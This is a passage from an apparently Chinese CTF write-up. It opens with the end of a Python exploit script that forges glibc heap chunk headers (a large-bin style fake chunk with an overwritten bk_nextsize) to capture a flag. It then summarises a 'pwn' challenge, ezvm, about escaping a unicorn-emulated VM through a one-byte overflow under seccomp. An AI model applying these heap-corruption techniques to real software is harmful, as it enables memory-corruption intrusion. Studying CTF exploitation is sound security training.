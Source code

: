 ```python
# now free our fake chunk
print(2)
print(0x50)

# malloc(0x450) = 0x1d0a2f0 (our fake chunk)
print(1)
print(0x450)
print('\x00' * 0x220 + # padding
        '\x00' * 8 + # mchunk_prev_size
        '\x51\x04' + '\x00' * 6 # mchunk_size
        )

# flush the unsorted bin
print(1)
print(0x800)
print('')

# overwrite the fake chunk header
print(1)
print(0x250)
print('\x00' * 0x20 + # padding
        '\x00' * 8 + # mchunk_prev_size
        '\x61\x04' + '\x00' * 6  + # mchunk_size
        '\x00' * 8 + # fd
        '\x00' * 8 + # bk
        '\x00' * 8 + # fd_nextsize
        '\x60\x40\x40' + '\x00' * 5 # bk_nextsize
        )

# get 0x300 bytes but free 0x450 bytes
print(1)
print(0x300)
print('')

# flush the unsorted bin again
print(1)
print(0x900)
print('')

# finally get the flag
print(3)
```

## [pwn] ezvm

题目大意：用unicorn-engine仿真执行一段x86_64汇编代码，实现了四个syscall hook分别是read、write、open、close，实现系统调用的时候有一处字符串拷贝单字节溢出，seccomp屏蔽了execve系统调用，目标虚拟机逃逸任意代码执行

这个题目感觉不太良心
 1. 二进制strip过，没有源代码，需要手动逆向，还有一些比较讨厌的函数指针，初看不知道在干什么，当然代码规模还可以接受
 2. 故意屏蔽了execve系统调用，最开始没有注意直接system("/bin/sh")发现就是不行，但是程序没有出错，后来才发现写了seccomp，而fork出来的程序也是继承的
 3. 没有告诉flag的位置，但是flag的文件名就是flag，虽然getdents64看一眼也不是不行，但是既然名字瞎猜都能都能猜到，不如在题目里说一句
 4. 考察点与unbelievable_write存在类似或重复
